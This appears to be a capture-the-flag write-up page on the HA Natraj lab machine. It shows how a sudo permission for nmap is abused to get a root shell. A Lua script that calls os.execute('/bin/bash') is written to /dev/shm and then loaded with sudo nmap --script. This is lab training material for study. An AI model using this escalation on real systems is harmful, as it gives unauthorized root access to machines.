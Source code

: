 ```yaml
---
layout: default
title: Nmap
parent: Sudo
nav_order: 9
---
```


# Nmap

---

## Check SUDO Permissions

We are now logged on as _mahakal_ and can check this account's sudo permissions.

![mahakal_sudo](../../../../assets/images/ctfs/proving_grounds/ha_natraj/mahakal_sudo.png)

If we create a binary in _/dev/shm_ and execute this with _nmap_ and the _--script_ flag will will have a root shell.

```bash
cd /dev/shm
echo 'os.execute("/bin/bash")' > rootshell
sudo /usr/bin/nmap --script=rootshell
```

![root](../../../../assets/images/ctfs/proving_grounds/ha_natraj/root.png)
